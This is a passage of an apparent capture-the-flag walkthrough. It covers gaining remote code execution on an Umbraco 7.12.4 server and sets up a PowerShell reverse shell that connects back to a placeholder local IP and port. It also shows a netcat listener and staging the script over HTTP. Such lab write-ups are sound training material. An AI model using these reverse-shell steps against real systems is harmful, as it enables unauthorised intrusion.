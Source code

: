 # Exploitation

## RCE

We can now see on the dashboard that it is running Umbraco 7.12.4

![dashboard](/assets/img/posts/remote/dashboard.png)

We find an RCE exploit for this version on [exploit-db](https://www.exploit-db.com/exploits/46153).
You can use the python script from exploit-db, but I preferred to use [this](https://github.com/noraj/Umbraco-RCE) one because I wanted to use command line arguments.

To get a reverse shell, we need to upload a PowerShell reverse shell and execute it on the target. This can be done with [this](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3#file-powershell_reverse_shell-ps1) reverse shell.

We need to change the first part to:

```powershell
$client = New-Object System.Net.Sockets.TCPClient("LOCAL_IP",LOCAL_PORT);$stream = $client.GetStream();
```

Then start a listener on the same port.

```bash
finlay@kali:~$ nc -nvlp LOCAL_PORT
```

We need to start a HTTP web server in the same directory as the powershell script so that we can download it from the target.

